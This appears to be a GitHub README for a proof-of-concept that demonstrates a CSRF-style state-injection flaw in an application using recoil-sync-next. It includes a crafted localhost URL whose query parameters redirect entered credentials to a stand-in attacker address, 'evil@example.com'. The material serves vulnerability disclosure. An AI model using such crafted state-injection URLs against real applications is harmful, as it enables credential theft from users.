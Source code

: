 ## `recoil-sync-next-csrf`

PoC for CSRF vulnerable application with recoil-sync-next

1. `yarn && yarn dev`
2. Go to `http://localhost:3000/?emailState=%22evil%40example.com%22&phaseState=%22cred%22`
3. Enter fake credential information and click "Next" button
4. The information you entered was sent to `evil@example.com` (not actually sent)
